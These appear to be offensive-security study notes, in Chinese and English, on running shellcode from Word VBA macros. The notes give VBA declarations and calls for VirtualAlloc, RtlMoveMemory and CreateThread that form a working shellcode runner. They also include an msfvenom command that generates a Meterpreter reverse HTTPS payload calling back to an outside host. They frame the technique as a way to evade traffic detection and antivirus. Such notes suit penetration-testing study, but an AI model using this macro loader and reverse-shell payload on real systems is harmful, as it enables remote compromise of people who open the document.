 # 3.4 Executing Shellcode in Word Memory

下载脚本 再执行容易被流量检测工具发现，另方面下载文件会被杀毒软件查杀

### 3.4.1 Calling Win32 APIs from VBA

介绍一下如何vba如何调用win32 api，64位系统需要加上PtrSafe

```visual basic
Private Declare PtrSafe Function GetUsername Lib "Advapi32.dll" Alias "GetUserNameA" (ByVal IpBuffer As String, ByRef nSize As Long) As Long
Sub test()
Dim res As Long
Dim mybuff As String * 256
Dim mysize As Long
mysize = 256
res = GetUsername(mybuff, mysize)
strlen = InStr(1, mybuff, vbNullChar) - 1
MsgBox Left(mybuff, strlen)
End Sub
```

### 3.4.2 VBA Shellcode Runner

**Shellcode**
- msfvenom -p windows/meterpreter/reverse_https LHOST=1.1.1.1 LPORT=443 EXITFUNC=thread -f vbaapplication

这里EXITFUNC=thread 表示文档关闭后 这个shell仍在执行

**Shellcode Runner**
1. VirtualAlloc (创建可读写执行到memory地址并返回地址)
   - 参数设置：
      - LPVOID lpAddress (内存分配地址，设为0 api会自动选择内存地址)
      - SIZE_T dwsize（申请内存分配的大小）
      - DWORD flAllocationType 
      - DWORD flProtect
   - 申明方式：
      ```vb
	  Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal IpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) as LongPtr
	  ```
   - 使用方式：
      ```vb
	  addr = VirtualAlloc(0,UBound(buf),&H3000,&H40)
	  ```
      - UBound(buf)：可以硬编码，也可以使用这个函数
      - &H3000：让操作系统为我们保留这段内存空间
      - &H40： 设定这段内存地址是可读写执行的
2. RtlMoveMemory（将shellcode复制到对应地址）
   - 参数设置：
      - VOID UNALIGNED	*Destination
      - VOID UNALIGNED	*Source				
      - SIZE_T					Length
    - 申明方式：
       ```vb
	    Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Long, ByVal lLength As Long) as LongPtr
	   ```
    - 使用方式：
       将shellcode一个字节一个字节导入
       ```vb
	   For counter = LBound(buf) to Ubound(buf)
	     data = buf(counter)
		 res=RtlmoveMemory(addr+counter,data,1)
	   Next counter
	   ```
       - 这边addr是 VirtualAlloc函数调用申领的地址
3. CreateThread 在进程process中
   - 参数设置：
      -  LPSECURITY_ATTRIBUTES：lpThreadAttributes,
      -  SIZE_T. :  dwStackSize,
      -  LPTHREAD_START_ROUTINE. : lpStartAddress,
      -  LPVOID : lpParameter,
      -  DWORD : dwCreationFlags,
      -  LPDWORD : lpThreadId
   - 申明方式：
      ```vb
	  Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartAddress As LongPtr, ThreadParameter as LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) as LongPtr
	  ```
   - 使用方式：
     ```
	 res = CreateThread(0,0,addr,0,0)
	 ```

使用vba的劣势在于，关闭了word文档，shell就断了。
